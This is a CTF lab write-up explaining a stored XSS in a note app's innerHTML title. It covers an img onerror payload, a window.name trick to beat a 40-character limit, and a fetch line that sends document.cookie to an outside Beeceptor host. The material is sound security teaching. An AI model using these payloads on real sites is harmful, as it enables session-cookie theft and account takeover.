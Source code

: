```yaml
---
title: Simple Web - 0x09(Lab - Simple Note)
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web - 0x09(Lab - Simple Note)
###### tags: `CTF` `Web` `eductf`
Challenge: https://note.ctf.zoolab.org/

## Background
[](https://www.wibibi.com/info.php?tid=402)

## Source Code
```javascript!
...
<script>
    const id = location.pathname.split('/').pop();

    fetch(`/api/note/${id}`).then(r => r.json()).then(({ title, content })=>{
        url.value = location;
        titleNode.innerHTML = title;
        contentNode.innerText = content;
    });   
</script>
...
```
For instance, if our `$id=47a8aad1b3b82dcd4decd36d`, the `script code` will fetch this data as `json` file and parse title and content.
![](https://i.imgur.com/Nwj6gCQ.png)
Then it'll change `titleNode` by `innerHTML` and change `contentNode` by `innerText`.
![](https://i.imgur.com/H8VdiIb.png)

### `innerText` VS `innerHTML`
`innerText` will filter tag but `innerHTML` will not.
For instance, `title=123` and `content=<script>123</script>`
![](https://i.imgur.com/eoXQYv5.png)


For instance, `title=<script>123</script>` and `content=123`
![](https://i.imgur.com/lGgpgQi.png)

### Analysis
According to the response, it seems has no filter of our input, so, we can choose to inject something in <font color="FF0000">`titleNode`</font>
![](https://i.imgur.com/5lNfsqw.png)


## Exploit - XSS
1. We tried to inject `<script>` tag in title but has nothing to trigger.
According to [javascript documentation](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations)
    > It is not uncommon to see innerHTML used to insert text into a web page. There is potential for this to become an attack vector on a site, creating a potential security risk. 
    > Although this may look like a cross-site scripting attack, the result is harmless. HTML specifies that a \<script\> tag inserted with innerHTML should not execute.

    > However, there are ways to execute JavaScript without using \<script\> elements, so there is still a security risk whenever you use innerHTML to set strings over which you have no control. For example: 
    
    ```javascript!
    const name = "<img src='x' onerror='fetch()'>";
    el.innerHTML = name; // shows the alert
    ```

2. Use `img` tag
Payload: `<img src='x' onerror='alert(1)'>`
![](https://i.imgur.com/01YmwNW.png)

3. String limit problem...
There's something wrong, that the title has input limit with 40 character at most. So, we can use `window.name` technique that we can write our payload as long as we can.
If we set:
    ```javascript!
    top.name = 'fetch("https://sbk6401.free.beeceptor.com?sh="+document.cookie)'
    ```
    Furthermore, we set our title as:<font color="FF0000">`<img src=x onerror=eval(window.name)>`</font>

    Then if we reload this page, it'll execute the command in `top.name`
    ![](https://i.imgur.com/B8aRmbN.png)

4. Host a server by `Beeceptor`
Note that, you should change `Content-Type` to `text/html`
![](https://i.imgur.com/eg4UUpl.png)
Then we can change the Report URL as what we set in `Beeceptor`
![](https://i.imgur.com/fVTg6oI.png)

5. Detail about workflow
    ```flow
    st=>start: Start
    e=>end: get flag in Beeceptor
    op=>operation: Set title to <img src=x onerror=eval(top.name)>
    io=>inputoutput: Click Report
    op2=>operation: Set URL as  https://sbk6401.free.beeceptor.com 
    op3=>operation: Execute our script that set in beeceptor
    op4=>operation: Set top.name as our payload
    op5=>operation: redirect to https://note.ctf.zoolab.org/note/fafe93de9467a6022fb8cb19
    op6=>operation: eval(top.name)


    st->op->io->op2->op3->op4->op5->op6->e
    ```

## Reference
[在XSS测试中如何绕过字符长度限制](https://zhuanlan.zhihu.com/p/93192936)